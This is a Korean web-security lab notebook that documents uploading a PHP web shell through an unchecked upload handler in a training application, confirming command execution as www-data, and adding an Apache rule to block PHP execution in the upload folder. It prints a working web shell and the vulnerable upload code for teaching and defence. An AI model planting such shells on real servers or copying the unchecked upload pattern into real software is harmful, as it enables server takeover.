

# 웹쉘 Upload 및 실행 실습

source: [[40_자료/강의 자료/5-20_웹보안.pdf|5-20 웹보안]], p.133-136.

## 실습 개요

한 줄 요약: **CARE 애플리케이션의 파일 업로드 기능을 이용해 `Webshell.php`를 웹 접근 가능한 `data` 디렉토리에 저장하고, `www-data` 권한으로 서버 명령이 실행되는 것을 확인한 실습이다.**

이 노트는 개념 노트가 아니라 실습 진행 기록이다. 스크린샷은 선택 증거로 두고, 명령어와 출력 텍스트만으로 충분히 증명되는 부분은 텍스트 evidence를 우선한다.

이번 실습에서 중요한 결과는 “파일 업로드가 됐다”가 아니라 아래 흐름이다.

```text
PHP 파일 업로드
-> 웹에서 접근 가능한 /data/Webshell.php에 저장
-> 브라우저에서 직접 요청
-> 서버가 PHP로 실행
-> whoami 결과가 www-data로 출력
```

| 항목 | 현재 상태 |
|---|---|
| 업로드 저장 디렉토리 생성 | 확인됨 |
| 업로드 코드 흐름 확인 | 확인됨 |
| `Webshell.php` 작성 | 확인됨 |
| 서버에 `Webshell.php` 저장 | 확인됨 |
| 직접 URL 접근 | 확인됨 |
| 웹쉘 명령 실행 결과 | 확인됨: `whoami` -> `www-data` |
| 서버 측 PHP 소스 출력 | 확인됨. 단, 이미지 안의 연결 정보는 원문 재기록하지 않음 |
| 업로드 디렉토리 차단 설정 | 설정 파일에 추가함. Apache 재시작/검증 필요 |

## 실습 흐름



핵심은 “파일이 업로드된다”가 아니라, **업로드된 PHP 파일이 웹에서 접근 가능한 경로에 저장되고 서버에서 실행될 수 있는가**다.

## 환경과 역할

| 구분 | 내용 |
|---|---|
| 대상 서버 | `web-server` |
| 실습 애플리케이션 경로 | `/var/www/care` |
| 업로드 저장 경로 | `/var/www/care/data` |
| 웹 접근 URL | `http://172.16.0.150:8080/data/Webshell.php` |
| 서버 작업 계정 | `web` |
| 웹 서버 실행 계정 | `www-data` |

## 업로드 저장 디렉토리 준비

업로드된 파일이 들어갈 `data` 디렉토리를 만들고, 디렉토리 권한과 소유자를 확인했다.

```bash
web@web-server:/var/www/care$ mkdir data
web@web-server:/var/www/care$ la _ld
ls: cannot access '_ld': No such file or directory
web@web-server:/var/www/care$ la -ld
drwxrwsr-x 7 web www-data 4096 May 29 04:38 .
web@web-server:/var/www/care$ la -ld data
drwxrwsr-x 2 web www-data 4096 May 29 04:38 data
web@web-server:/var/www/care$ sudo chown web:www-data data
[sudo: authenticate] Password:  
web@web-server:/var/www/care$ la -ld data
drwxrwsr-x 2 web www-data 4096 May 29 04:38 data
web@web-server:/var/www/care$ 
```

관찰:

- `la _ld`는 옵션 오타로 실패했다.
- `data` 디렉토리는 `web:www-data` 소유이고, 그룹에 쓰기 권한이 있는 상태다.
- 이후 업로드된 파일은 웹 서버 계정인 `www-data` 소유로 저장된다.

## 업로드 코드 흐름

업로드 처리 코드는 브라우저가 보낸 파일을 `$_FILES`에서 읽고, 임시 파일을 `../data/<업로드파일명>` 위치로 이동한다.

```php
// 파일 업로드를 하게 되면 form 태그 속성에 enctype="multipart/form-data"를 지정, 그럼 $_FILES 에 파일 이름 존재함.
//$upfile = $_POST['upfile'];
$upfile = $_FILES['upfile']['name'];
$tmp_file = $_FILES['upfile']['tmp_name'];
// echo "subject : " . $subject . "<br>";
// echo "content : " . $content . "<br>";
// echo "upfile : " . $upfile . "<br>";
// echo "tmp_file : " . $tmp_file . "<br>";

if(is_uploaded_file($tmp_file)){
    $destination = "../data/" . $upfile;
    move_uploaded_file($tmp_file, $destination);
}
```

해석:

- `$_FILES['upfile']['name']`은 사용자가 올린 원래 파일명이다.
- `$_FILES['upfile']['tmp_name']`은 PHP가 임시로 저장한 파일 경로다.
- `move_uploaded_file()`이 성공하면 업로드 파일이 `../data/` 아래로 이동한다.
- 확인한 업로드 처리 코드 구간에서는 파일 확장자 검사 로직이 보이지 않는다.
- 다만 웹 서버 설정이나 다른 처리 단계에서 별도 차단이 존재하는지는 실행 결과로 확인해야 한다.

## Webshell.php 작성

Windows에서 `Webshell.php`를 만들고 업로드했다.

처음에는 Windows에서 `Webshell.php`처럼 보였지만 파일 형식이 텍스트 문서로 잡히는 문제가 있었다. 이 경우 실제 파일명이 `Webshell.php.txt`일 수 있으므로, 파일 확장명을 표시한 뒤 `.txt`가 붙어 있지 않은지 확인해야 한다.

PDF 복사 과정에서 줄바꿈도 깨졌으므로, 아래처럼 정리한 형태를 사용했다.

```php
<?php
$cmd = $_POST['cmd'] ?? '';

if ($cmd) {
    $output = shell_exec($cmd . " 2>&1");
}
?>
<!DOCTYPE html>
<html>
<body>
<form method="post">
    <input type="text" name="cmd" placeholder="command">
    <input type="submit" value="Run">
</form>
<pre>
<?= htmlspecialchars($output ?? '', ENT_QUOTES, 'UTF-8') ?>
</pre>
</body>
</html>
```

이 파일의 의미:

- 브라우저가 `cmd` 값을 POST로 보내면 PHP가 그 값을 서버 명령으로 실행한다.
- `2>&1`은 표준 에러도 함께 출력으로 합친다.
- `htmlspecialchars()`는 실행 결과를 HTML로 해석하지 않고 화면에 텍스트로 보여주기 위한 출력 처리다.

## 업로드 결과 확인

서버에서 `data` 디렉토리를 확인했을 때 `Webshell.php`가 저장되어 있었다.

```bash
web@web-server:/var/www/care$ ls -la data
total 12
drwxrwsr-x 2 web      www-data 4096 May 29 04:49 .
drwxrwsr-x 7 web      www-data 4096 May 29 04:38 ..
-rw-r--r-- 1 www-data www-data  354 May 29 04:49 Webshell.php
web@web-server:/var/www/care$ 
```

판정:

- 업로드 자체는 성공했다.
- 파일 소유자가 `www-data:www-data`로 저장된 것을 보면 웹 애플리케이션을 통해 업로드된 파일이다.
- 파일 크기는 `354` bytes로, Windows에서 만든 `Webshell.php` 크기와 맞는다.

## 웹쉘 실행 확인

업로드된 파일을 다음 URL로 직접 열어 보았다.

```text
http://172.16.0.150:8080/data/Webshell.php
```

### `whoami` 실행 결과

![[Pasted image 20260529135307.png]]

관찰:

```text
입력한 명령: whoami
출력 결과: www-data
```

해석:

| 관찰한 값 | 의미 |
|---|---|
| 입력 폼과 `Run` 버튼이 보임 | 업로드된 `Webshell.php`가 단순 다운로드나 텍스트 노출이 아니라 PHP 화면으로 렌더링됨 |
| `whoami` 결과가 `www-data` | 웹쉘을 통해 서버 명령이 실행됐고, 실행 주체가 Apache/PHP의 웹 서버 계정임 |

이번 실습에서 얻은 핵심 증거:

```text
Webshell.php는 웹에서 접근 가능했고, 서버 명령 실행 결과를 브라우저로 반환했다.
```

### 서버 측 PHP 소스 출력 확인

![[Pasted image 20260529140116.png]]

두 번째 화면에서는 명령 입력란에 어떤 명령을 넣었는지는 이미지에 남아 있지 않지만, 출력 영역에 서버 측 PHP 소스 코드가 표시되어 있다.

이 화면에서 확인되는 의미:

- 웹쉘을 통해 단순 계정 확인뿐 아니라 서버 파일 내용 조회까지 이어질 수 있다.
- 출력된 소스에는 업로드 처리 흐름과 DB 연결 정보로 보이는 값이 포함되어 있으므로, 노트에는 원문 값을 다시 적지 않는다.
- SQL Injection 실습에서 에러 메시지가 DB 구조를 노출한 것처럼, 이 실습에서는 웹쉘 실행이 서버 파일과 애플리케이션 내부 구조 노출로 확장될 수 있다.

정리하면, 이 실습은 다음 checkpoint까지 확인했다.

```text
업로드 성공
-> 직접 URL 접근 성공
-> PHP 실행 성공
-> whoami 결과 www-data 확인
-> 서버 측 PHP 소스 출력 정황 확인
```

## 수업 중 보충 질문 - 업로드 경로는 어떻게 아는가?

이번 실습에서는 업로드 처리 코드와 서버 경로를 함께 볼 수 있었기 때문에 `/data/Webshell.php`를 비교적 쉽게 추론할 수 있었다.

```php
$destination = "../data/" . $upfile;
```

`/var/www/care`가 웹 애플리케이션의 기준 경로라면, 서버 파일 경로 `/var/www/care/data/Webshell.php`는 웹 URL에서 `/data/Webshell.php`로 이어진다.

하지만 실제로 업로드 경로를 찾는 방식은 상황에 따라 다르다.

| 상황 | 찾는 방식 | 이 실습과의 관계 |
|---|---|---|
| 소스/서버 접근 가능 | 업로드 처리 코드, 저장 경로, DocumentRoot를 직접 확인한다. | `$destination = "../data/" . $upfile;` 때문에 `/data/Webshell.php`로 추론했다. |
| 허가된 진단/수업 환경 | Burp, Paros, 브라우저 개발자도구로 업로드 요청/응답, `href`, `src`, `Location`, 다운로드 링크를 확인한다. | 수업 실습에서는 요청과 응답을 관찰하며 업로드 경로를 확인할 수 있다. |
| 현실적인 외부 관찰 | 업로드 후 화면, 기존 첨부파일 URL 패턴, 파일명 검색, 흔한 디렉토리명, 에러 메시지, Directory Listing 같은 단서를 반복 확인한다. | 강사님 표현대로 “노가다”에 가깝지만, 완전 랜덤이 아니라 단서를 따라가는 반복 확인이다. |

정리하면, `/data` 같은 경로는 마법처럼 아는 값이 아니다. 코드 접근이 있으면 코드에서 찾고, 허가된 진단이면 요청/응답에서 찾고, 외부 관찰만 가능한 상황이면 화면과 URL 패턴을 계속 대조하면서 찾는다.

## Directory Listing 실습으로 이어지는 지점

이번 실습에서 만든 `data` 디렉토리는 다음 Directory Listing 실습과 바로 연결된다.

```text
http://172.16.0.150:8080/data/
```

파일명을 빼고 디렉토리까지만 요청했을 때 `Webshell.php` 같은 파일 목록이 보이면, 업로드된 파일의 정확한 URL을 찾기가 쉬워진다.

다음 실습에서는 이 연결만 확인한다. File Upload는 “파일을 서버에 심는 문제”이고, Directory Listing은 “서버가 파일 목록과 경로를 보여주는 설정 문제”이므로 별도 실습 노트로 분리한다.

## 업로드 디렉토리 차단 설정

p.136의 Apache 대응 방향에 맞춰 `data` 디렉토리 설정을 추가했다.

수정한 파일:

```bash
sudo vi /etc/apache2/sites-available/000-default.conf
```

추가한 설정:

```apache
<Directory /var/www/care/data>
        Options -Indexes
        php_admin_flag engine off
</Directory>
```

설정 의미:

| 설정 | 의미 | 이번 실습에서 막으려는 것 |
|---|---|---|
| `Options -Indexes` | 디렉토리 요청 시 파일 목록 자동 생성을 끈다. | `http://172.16.0.150:8080/data/`로 파일 목록이 보이는 상황 |
| `php_admin_flag engine off` | 해당 디렉토리에서 PHP 엔진 실행을 끈다. | 업로드된 `Webshell.php`가 서버 명령 실행 코드로 동작하는 상황 |

관찰:

- `DocumentRoot`는 `/var/www/care`로 설정되어 있다.
- 차단 대상 디렉토리는 `/var/www/care/data`다.
- `Options -Indexes`는 Directory Listing 방어이고, `php_admin_flag engine off`는 업로드 디렉토리에서 PHP 실행 자체를 막는 방어다.

아직 확인하지 않은 것:

- Apache 설정 문법 검사 결과
- Apache reload/restart 수행 여부
- `/data/` 요청 시 Directory Listing이 실제로 막혔는지
- `/data/Webshell.php` 요청 시 PHP 실행이 실제로 막혔는지

## 보안적으로 의미하는 것

이 실습의 핵심은 파일 업로드 기능이 단순 저장 기능이 아니라 서버 코드 실행 경로가 될 수 있다는 점이다.

위험 조건은 다음처럼 정리된다.

1. 사용자가 `.php` 같은 서버 측 스크립트를 업로드할 수 있다.
2. 업로드된 파일이 웹에서 접근 가능한 디렉토리에 저장된다.
3. 해당 디렉토리에서 PHP 실행이 허용되어 있다.
4. 직접 URL로 접근했을 때 서버가 파일을 다운로드하거나 텍스트로 보여주는 것이 아니라 PHP로 실행한다.

이번 실습에서는 이 조건들이 실제로 이어져 `www-data` 권한의 명령 실행으로 확인되었다. 따라서 위험은 업로드 파일 하나에 그치지 않고, 서버 측 소스 코드와 설정 정보 노출로 확장될 수 있다.

## 남은 확인

- Apache 설정 문법 검사와 reload/restart 여부를 확인한다.
- `http://172.16.0.150:8080/data/` 요청 시 Directory Listing이 차단되는지 확인한다.
- `http://172.16.0.150:8080/data/Webshell.php` 요청 시 PHP 실행이 차단되는지 확인한다.
- 실습 종료 후 `Webshell.php` 제거 또는 실행 차단 여부를 정리한다.
  
  
  
